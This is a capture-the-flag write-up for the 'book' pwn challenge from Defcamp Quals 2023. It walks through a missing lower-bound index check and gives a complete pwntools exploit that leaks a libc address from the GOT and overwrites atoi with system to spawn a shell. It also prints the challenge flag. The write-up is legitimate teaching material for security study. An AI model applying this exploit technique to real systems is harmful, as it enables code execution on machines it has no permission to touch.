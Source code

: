 ```yaml
---
title: book
date: 2023-10-22T09:56:31+03:00
description: Writeup for book [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Read books for inspiration so you know what to write!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec book
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   74 Symbols	  No	0		4		book
```
We have PIE enabled but Partial RELRO. Partial RELRO might mean that we will overwrite GOT entries.

We decompile the binary and find a missing lower bound check for the index of the entry we read/write. We have arbitrary read/write primitives before the address of the todos list. Luckily, the GOT entries are before it. The main idea would be to leak a libc address, find the libc version and overwrite a function with ``system``.

### Solution

We can only leak an arbitrary amount of bytes, until a null byte is found, with the ``printf`` found in ``print_todo``.

```c
void print_todo(void)

{
  int iVar1;
  
  printf("Which entry would you like to read? ");
  fflush(stdout);
  iVar1 = read_int();
  if (iVar1 < 0x81) {
    printf("Your NOTE: %s\n",todos + iVar1 * 0x30);
  }
  else {
    puts("Sorry but this model only supports 128 NOTE list entries.\n");
  }
  return;
}
```
The catch is, we can only read at offsets of ``0x30`` bytes from the beginning of the ``todos``. Luckily it is perfectly aligned with some GOT functions, but the ``"%s"`` format string will run into some issues if it finds the null byte. We choose to leak open as it is perfectly aligned at an offset of ``-4 * 0x30``. We get the address, determine the libc version manually using [libc database](https://libc.blukat.me/) and then determine the offset to ``system`` from ``open``. Luckily we only need the lower 3 bytes of the address from the leak, so the ``"%s"`` format won’t be too inconvenient.

We can use ``store_todo`` to write, again at offsets of ``0x30`` bytes from ``todos``. Below you can find a commented version of the exploit:

```py
#!/usr/bin/env python3

from pwn import *

target = process("./book")
#target = remote("34.89.131.150", 30325)

# Different offsets on local/remote
is_remote = False
if is_remote:
    # libc6_2.31-0ubuntu9.9_amd64 
    system_offset = -0xbba50
else:
    system_offset = -801120

# Addresses found in .got.plt and .data
# PIE is enabled but we write relative to todos address and it will be fine
todos_addr = 0x00104140
open_gotplt_addr = 0x00104080

# Function to transform offsets to indices for todos
def get_offset_idx(addr):
    return (addr - todos_addr) // 48

# Leak open address using arbitrary read primitive
target.sendline(b"sunbather")
target.sendline(b"2")
idx = get_offset_idx(open_gotplt_addr)
target.sendline(str(idx).encode())
target.recvuntil(b"Your NOTE: ")
leak = target.recvline().strip()
print(hex(leak[0]), hex(leak[1]))

# somewhere here we can manually search for the libc version

# Determine system address
open_addr = int.from_bytes(leak, byteorder="little")
system_addr = open_addr + system_offset

# Write relative to todos
idx = get_offset_idx(open_gotplt_addr)
target.sendline(b"3")
target.sendline(str(idx).encode())

# Overwrite GOT entry of atoi
# atoi is right next to open, which means we use the previous open leak
# to keep open intact
leak = leak + b"\x00" * (8 - len(leak)) if len(leak) < 8 else leak # this is just to make sure the leak has 8 bytes
# then overwrite atoi with system
payload = leak + p64(system_addr)

print(b"sending:" + payload)

# pop a shell ;)
target.sendline(payload)
target.interactive()
```

An important thing to add is that we choose ``atoi`` not only because it is easy to overwrite (right next to open), which allows us to keep the rest of the addresses in GOT intact, but also because the next input we give to the program will be directly passed to ``atoi``. Which means that if we replace it with ``system`` we pretty much get a shell.

#### Flag

```CTF{33b9fc73cf5667ace669b51470f10addd390f3abc6101b366ce0eaf239846fc2}```

